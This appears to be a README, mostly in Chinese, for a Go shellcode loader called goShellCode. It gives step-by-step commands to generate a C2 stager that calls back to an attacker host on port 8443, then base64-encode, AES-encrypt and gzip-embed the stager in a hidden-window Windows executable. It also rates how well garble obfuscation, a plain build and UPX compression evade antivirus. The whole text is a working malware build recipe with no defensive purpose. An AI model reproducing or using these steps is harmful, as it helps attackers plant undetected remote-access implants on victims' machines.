 # goShellCode

golang自带的嵌入，思路打开，嵌入一个byte的压缩包，图片，然后解密，这里采用的自带的的gzip

//生成shellcode

generate stager --lhost HOST --lport 8443 --arch amd64 --format raw --save ./raw_shellcode

base64 -w 0 -i raw_shellcode > stager.bs64

go run aes.go

//免杀效果拉跨

garble -literals -tiny -seed=random build -ldflags="-w -s -H windowsgui" ./main.go

//免杀效果好 

go build -ldflags="-w -s -H windowsgui" ./main.go

//压缩,upx压缩之后容易被查杀

upx.exe -9 -q -o zip.exe main.exe


## build.bat

拷贝stager.bs64中的内容到aes/base64Code.txt

然后执行bat，生成main.exe，免杀效果还行


aes加密部分来自

https://github.com/HZzz2/go-shellcode-loader
